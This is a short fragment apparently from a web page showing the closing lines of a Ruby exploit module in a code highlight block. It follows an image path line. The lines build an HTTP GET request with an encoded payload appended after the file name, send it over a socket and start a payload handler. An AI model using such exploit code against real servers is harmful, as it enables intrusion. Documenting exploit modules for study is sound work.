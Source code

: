     sploit = "GET #{filename} HTTP/1.1\r\n #{payload.encoded}"

    # Send the exploit
    sock.put(sploit)

    handler
    disconnect
   end
end
{% endhighlight %}

